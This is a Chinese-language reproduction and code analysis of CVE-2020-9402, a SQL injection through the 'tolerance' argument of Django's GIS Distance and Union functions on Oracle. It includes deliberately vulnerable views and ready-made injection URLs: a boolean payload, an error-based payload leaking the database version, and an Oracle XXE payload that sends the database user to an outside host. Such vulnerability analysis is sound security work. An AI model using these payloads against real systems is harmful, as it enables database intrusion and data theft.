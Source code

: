 # （CVE-2020-9402）Django Geo sql注入

> 原文：[https://www.zhihuifly.com/t/topic/2888](https://www.zhihuifly.com/t/topic/2888)

# （CVE-2020-9402）Django Geo sql注入

## 一、漏洞简介

Django 1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞。攻击者可借助特制的SQL语句利用该漏洞查看、添加、修改或删除数据库中的信息。

## 二、漏洞影响

Django 1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞

## 三、复现过程

根据官网的修复https://github.com/django/django/commit/6695d29b1c1ce979725816295a26ecc64ae0e927#diff-229e38ececbfc591f7a5e595bf5707c4，可以看到问题出在GIS的查询上面

![image](img/4001c7102fd4edbb5d99e20d00630e34.png)

![image](img/be2455a91aeaa6c76fda084d6270d15b.png)

官方只修复了这两个位置，可以发现基本上是对于`tolerance`参数进行判断是否为数字。那首先来了解一下GIS查询。

GIS查询API是一个地理位置的查询API，提供用户存储精确GPS的位置的数据模块，属于一个空间数据库，我们可以通过如下的经纬度信息

```
pnt = GEOSGeometry('POINT(-96.876369 29.905320)', srid=4326) `>>>SRID=4326;POINT (-96.876369 29.90532)` 
```

来获得一个具体的定位信息,通过如下的模块来构建一个基本的地理信息存储

```
from django.contrib.gis.db import models
class Names(models.Model):
    name = models.CharField(max_length=128)

```
def __str__(self):
    return self.name 
``` `class Interstate(Names):

path = models.LineStringField()` 
```

后台存储的时候发出path的信息为json数据，例如

```
{"type":"LineString","coordinates":[[-8167.236601807093,-3286.248045708844],[-7896.285624495958,-3324.9553281818644],[1083.8039092445451,-654.1528375435246]]} 
```

![image](img/50b47c7c8a562c4b4349c8880e45343b.png)

我们就获得了一个基本的地理位置数据,同理，通过构造一个聚合的查询方法

```
def vuln(request):
    q = request.GET.get('q')
    qs=Interstate.objects.annotate(
            d=Distance(
                Point(-0.0733675346842369, -0.0295208671625432, srid=4326),
                Point(0.009735976166628611, -0.00587635491086091, srid=4326),
                tolerance = q, # default 0.05
            ),
        ).filter(d=D(m=1)).values('name') 
```

因为官网文档找不到如何构造Point查询，因此为了省事，直接写死了Point数值。。srid为空间参考的投影设置，默认值为4326。其中`tolerance`是对于oracle特殊存在的一个键值，其作用是基本你的容错率，详细的信息可以参考[oracle官方文档](https://docs.oracle.com/en/database/oracle/oracle-database/18/spatl/spatial-concepts.html#GUID-CE10AB14-D5EA-43BA-A647-DAC9EEF41EE6)。对应的查询语句为

```
SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) =  1.0 FETCH FIRST 21 ROWS ONLY; 
```

**0x02代码分析**
首先从传入一个url

```
http://127.0.0.1:8000/vuln/?q=20) = 1 OR 1=1 OR (1%2B1 
```

从`annotate`聚合函数开始跟进，同普通的model函数查询一样，gis查询虽然拥有着单独的model模块，但依旧还是依靠着普通model中进行过滤和查询。从gis的model文件夹中的`__init__.py`文件中看

![image](img/e027e3c87ede9bb57ac1c66821ec9194.png)

主要的查询依然调用的是django最基本的db方法，而其中单独定义了`function`方法等一些对地理位置插叙独特的方法。程序运行到`/django/db/models/manager.py`文件中的`_get_queryset_methods`后，获取到tolerant参数之后便直接进入到gis模块中进行查询

![image](img/20d8c2e4266f658f0b40a3ec8f27dce9.png)

继而进入到`django/contrib/gis/measure.py`文件中的`MeasureBase`类中进行方法调用，那么后面的方法分析可以跳过，因此直接来到漏洞代码段。先来看gis API中的functions函数，在as_oracle方法这一段

```
def as_oracle(self, compiler, connection, **extra_context):
    tol = self.extra.get('tolerance', self.tolerance)
    return self.as_sql(
        compiler, connection,
        template="%%(function)s(%%(expressions)s, %s)" % tol,
        **extra_context
    ) 
```

`tolerance` 从self.extra.get导入，该方法会搜索全局变量的值，如果该值不存在，则直接设置为0.05，并且将其直接传入到新的变量中。之后则不对tol进行任何处理直接拼接到template字符串中并且传入`as_sql`方法。那么官方对于as_sql的文档是，此方法需要一个SQLCompiler对象，位于`django/db/models/sql/compiler.py`文件中。而我们只需要知道在该对象中有一个`compile()`方法，该方法可以返回一个包含SQL字符串的元祖，而SQLComiler对象中的query变量则是存储直接进行SQL查询语句的SQL命令。从而两个Point分别进入`compile`方法中进行拼接

![image](img/7d5ce17ea92c6638d3b630613a9fb2cd.png)

不知道为什么，用pycharm在as_oracle下断点的时候，第一次到达SQLCompiler的时候，pycharm不会在as_oracle函数中停下来，而是在第二次查询的时候才会停，但是经过测试确实是在进入SQLCompiler之前调用过as_orcle函数，可能是pycharm没有正确识别重载函数吧。之后template构造模版也因此进入到`expression.py`中的as_sql函数中进行字符串构造

![image](img/4380b584f2e803a5c9e84db724be2749.png)

因此最后进入oracle的命令语句是

```
SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) = 1 OR 1=1  OR (1+1) = 1.0 FETCH FIRST 21 ROWS ONLY; 
```

![image](img/d863ec736b19cc345ee03e518347ada6.png)

带入数据库中查询

![image](img/8d75b8a222415728d69d2775f1c732c0.png)

![image](img/4c55ad56c79fc71e41c53522f8447b59.png)

官方修复的方法就是加入Value函数，判断传入的值是否为数字，否的话直接报错推出。那么第二个注入点就是`Union`了，建立Model

```
class City(Names):
    point = models.PointField()  # 点模块 
```

编辑传入的参数为

```
{"type":"Point","coordinates":[13250.226757682816,68815.69380603009]} 
```

view中设置查询

```
from django.contrib.gis.db.models import Union
def vuln2(request):
    q = request.GET.get('q')
    res = City.objects.aggregate(
            Union('point', tolerance=q),
    )
    return HttpResponse(res) 
```

输入url

```
http://127.0.0.1:8000/vuln2?q=0.05)))%2C%20(((1 
```

首先看结果，得到的SQL查询语句为

```
SELECT SDO_UTIL.TO_WKBGEOMETRY(SDO_AGGR_UNION(SDOAGGRTYPE("APP_CITY"."POINT",0.05))), (((1))) AS "POINT__UNION" FROM "APP_CITY"; 
```

![image](img/ed5a98bf03b53288e05b7e938d15af66.png)

该aggregate查询方法是GIS查询特定的一种查询方法，为的是与地理查询的语句做适配,用法跟原模块的方法类似。因此跟进GIS模块中的聚合查询方法，位于`django/contrib/gis/db/models/aggregates.py`文件内的as_oracle方法。

![image](img/a7fa788e2fb3f8974986696c8879e640.png)

同样tolerance没有做任何检查直接传入了template模版语句中，原理与上面annotate查询过程一致。利用有大致两个方法
报错注入

```
http://localhost:8000/test/?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v%24instance)) from dual) is null%20 OR (1%2B1 
```

![image](img/c8cff634ec6996318f116355a45c2594.png)

CVE-2014-6577
因为Django自2.0以后支持的oracle版本为12以上，因此可以尝试oracle XXE来进行SQL的注入。同时因为在SQL处理的过程中有三次利用%的模版跳转，因此需要在XMLpayload中的%替换为%%%%，payload为

```
http://localhost:8000/test/?q=20) = 1 OR (select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%25%25%25%20remote%20SYSTEM%20%22http%3A%2F%2Fdocker.for.mac.host.internal%3A9000%2F'%7C%7C(SELECT%20user%20from%20dual)%7C%7C'%22%3E%20%25%25%25%25remote%3B%5D%3E')%2C'%2Fl')%20from%20dual)%20is%20not%20null OR (1%2B1 
```

![image](img/deb8db37543ec569ee0d991a093d7b03.png)

命令执的话因为是docker起的oracle所以没有设置JAVA的环境，暂时也不能判定有没有，以后再研究看看。

## 参考链接

> https://xz.aliyun.com/t/7403